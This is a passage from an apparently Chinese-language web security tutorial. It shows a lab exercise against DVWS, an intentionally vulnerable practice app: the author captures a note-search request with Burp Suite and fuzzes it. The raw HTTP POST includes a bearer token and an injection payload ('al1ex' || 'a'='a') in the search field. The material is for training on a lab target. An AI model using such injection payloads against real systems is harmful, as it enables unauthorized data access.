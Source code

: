 #### 靶场示例

这里我们在 DVWS 中查看 Public Note 并使用 burpsuit 抓包

![图片](assets/1711872140-adec7fc30883b52f5f3658e160759743.png)

![图片](assets/1711872140-fb939cdc8471d531519ee7e900697d63.webp)

随后进行简易 fuzzing

```plain
POST /api/v2/notesearch HTTP/1.1
Host: 192.168.204.160
Content-Length: 18
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWwxZXgiLCJwZXJtaXNzaW9ucyI6WyJ1c2VyOnJlYWQiLCJ1c2VyOndyaXRlIl0sImlhdCI6MTcwNjM3NTAyNSwiZXhwIjoxNzA2NTQ3ODI1LCJpc3MiOiJodHRwczovL2dpdGh1Yi5jb20vc25vb3B5c2VjdXJpdHkifQ.HYLse7VkddVzfCGa8iWVG1sZuxdtPvv2af7s7nfkHLg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/search.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"search":"al1ex' || 'a'='a"}
```
